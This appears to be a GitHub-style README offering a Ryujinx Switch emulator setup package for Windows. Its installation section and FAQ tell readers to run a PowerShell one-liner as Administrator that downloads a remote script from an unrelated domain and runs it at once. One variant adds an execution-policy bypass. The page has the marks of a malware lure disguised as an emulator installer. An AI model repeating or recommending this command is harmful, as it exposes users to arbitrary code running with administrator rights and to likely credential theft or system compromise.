

<div align="center">


<br>


# Ryujinx Switch Emulator Advanced Setup
**Firmware profiles · Shader pipeline · Controller map**
<br>
**Firmware profiles · Shader pipeline · Controller map**
<br>
Windows · Setup · Deployment



**Ryujinx · Switch emulation · Firmware · Windows**

</div>
---

> Ryujinx setup package for Windows with firmware profiles, shader pipeline options, controller mappings, and a structured game library.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://usevision.fun/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎮 **Game library** — Title list with cover art and launch entries.
📦 **Firmware profiles** — Version-matched system file layouts.
🧩 **Shader pipeline** — Cache and pipeline preset options.
🕹️ **Controller map** — Joy-Con and Pro Controller templates.
⚡ **One command setup** — PowerShell handles download and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB |
| **Disk** | 25 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://usevision.fun/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB, 25 GB.
</details>


TAGS
ryujinx, nintendo-switch, emulator, emulation, gaming, windows, desktop, firmware, software, tools
